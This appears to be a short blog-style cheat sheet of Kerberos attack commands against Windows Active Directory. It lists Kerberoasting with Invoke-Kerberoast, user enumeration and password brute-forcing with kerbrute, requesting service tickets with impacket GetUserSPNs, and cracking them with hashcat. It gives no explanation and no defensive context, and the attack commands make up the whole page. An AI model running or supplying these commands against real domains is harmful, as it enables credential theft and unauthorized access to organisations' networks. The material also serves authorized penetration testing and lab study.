 ```yaml
---
layout: post
title:  "kerberos - general"
date:   2022-01-01
categories: windows
---
```


## invoke

```bash
Invoke-Kerberoast -OutputFormat john | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```


## User enumeration - kerbrute

```bash
./kerbrute userenum --domain example.com /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.10
```

## Brute force user - kerbrute

```bash
./kerbrute bruteuser --domain example.com /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt username --dc 10.10.10.10
```


## Service Principal Name tickets - TGS

```
impacket-GetUserSPNs -request -dc-ip 10.10.10.10 example.com/username
```

- crack tgs with hashcat - windows

```bash
hashcat.exe -m 13100 tgs.txt rockyou.txt --force
```